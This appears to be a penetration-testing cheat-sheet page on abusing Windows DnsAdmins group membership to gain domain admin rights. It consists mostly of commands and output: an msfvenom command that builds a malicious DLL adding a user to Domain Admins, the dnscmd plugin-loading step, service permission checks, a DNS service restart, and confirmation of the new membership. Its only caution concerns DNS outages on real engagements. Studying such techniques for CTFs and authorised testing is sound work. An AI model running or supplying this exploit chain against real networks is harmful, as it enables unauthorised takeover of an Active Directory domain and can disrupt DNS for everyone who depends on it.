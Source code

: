 Members of the `DnsAdmins` group have access to DNS information on the network. The DNS service runs as `NT AUTHORITY\SYSTEM`, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain.

```bash
C:\Users\netadm>net localgroup "DnsAdmins"
Alias name     DnsAdmins
Comment        DNS Administrators Group

Members

-------------------------------------------------------------------------------
netadm
The command completed successfully.
```

Generate malicious DLL:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Load custom DLL:

```bash
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Downloads\adduser.dll
```

The service needs to be restarted.  Typically, members of this group do not have permissions to restart the service, but it is worth checking.

We need to get our SID:

```bash
wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

Check permissions:

We are looking for `RPWP` in the output below:

```bash
sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)
```

Once confirmed, stop and start the service:

```bash
sc stop dns
sc start dns
```

Now this user is a member of the domain admins group:

```bash
C:\Users\netadm>net group "Domain Admins" /dom
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

Doing this in a CTF environment is fine, however on a real engagement, check with the client as this attack has the potential to take down DNS for the entire Active Directory environment. Use with caution!




